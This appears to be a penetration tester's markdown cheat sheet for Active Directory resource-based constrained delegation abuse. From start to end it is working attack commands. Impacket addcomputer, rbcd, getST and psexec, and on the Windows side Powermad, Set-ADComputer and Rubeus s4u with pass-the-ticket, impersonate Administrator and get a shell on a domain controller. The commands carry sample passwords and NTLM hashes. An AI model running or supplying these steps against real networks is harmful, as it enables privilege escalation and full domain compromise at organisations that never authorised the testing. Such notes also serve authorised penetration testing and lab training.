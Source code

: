 ```yaml
---
tags:
  - Authenticated
  - Elevated
  - Kerberos
  - msDS-AllowedToActOnBehalfOfOtherIdentity
  - AD
---
```

## Linux
---
Add computer you control
```PowerShell
impacket-addcomputer -computer-name 'rbcd-test$' -computer-pass 'Megaman!1' -dc-ip 192.168.0.100 its-piemonte.local/tantani:'AAAAaaaa!1'
```
example with hash
```PowerShell
impacket-addcomputer -computer-name 'rbcd$' -computer-pass 'Password123!' -dc-ip 192.168.146.175 resourced.local/L.Livingstone -hashes :19a3a7550ce8c505c2d46b5e39d6f808
```
Configure delegation rights
```PowerShell
impacket-rbcd -delegate-to 'its-dc1$' -delegate-from 'rbcd-test$' -dc-ip 192.168.0.100 -action write its-piemonte/tantani:'AAAAaaaa!1'
```
Example with hash
```PowerShell
impacket-rbcd -delegate-to 'RESOURCEDC$' -delegate-from 'rbcd$' -dc-ip 192.168.146.175 -action write resourced.local/L.Livingstone -hashes :19a3a7550ce8c505c2d46b5e39d6f808
```
Request ticket for admin
```PowerShell
impacket-getST -spn cifs/its-dc1.its-piemonte.local -impersonate Administrator -dc-ip 192.168.0.100 its-piemonte.local/rbcd-test:'Megaman!1'
```
another example
```PowerShell
impacket-getST -spn cifs/RESOURCEDC.resourced.local -impersonate Administrator -dc-ip 192.168.146.175 resourced.local/rbcd:'Password123!'
```
auth with ccache
```PowerShell
export KRB5CCNAME=Administrator@cifs_RESOURCEDC.resourced.local@RESOURCED.LOCAL.ccache
```
PSEXEC IN
```PowerShell
impacket-psexec Administrator@resourced.local -k -no-pass -dc-ip 192.168.146.175
```
## Windows
---
Windows [PowerMad](https://github.com/Kevin-Robertson/Powermad) has a cmdlet to let us create machine accounts:
```PowerShell
New-MachineAccount -MachineAccount baud -Password $(ConvertTo-SecureString 'Baudy16!1' -AsPlainText -Force)
```
Configure rights (with default AD powershell module)
```PowerShell
Set-ADComputer its-dc1 -PrincipalsAllowedToDelegateToAccount baud$
```
use rubeus
```PowerShell
# get AES:
Rubeus.exe hash /password:Baudy16!1 /user:baud$ /domain:its-piemonte.local
# get only RC4:
Rubeus.exe hash /password:Baudy16!1
```
  
```PowerShell
Rubeus.exe s4u /user:baud$ /rc4:8F8172E42D04C1934FECC9E8404E2657 /domain:its-piemonte.local /msdsspn:cifs/its-dc1 /impersonateuser:administrator /ptt
```
  
Convert to auth ticket
```PowerShell
impacket-ticketConverter rubeusTicket.kirbi impacketTicket.ccache
```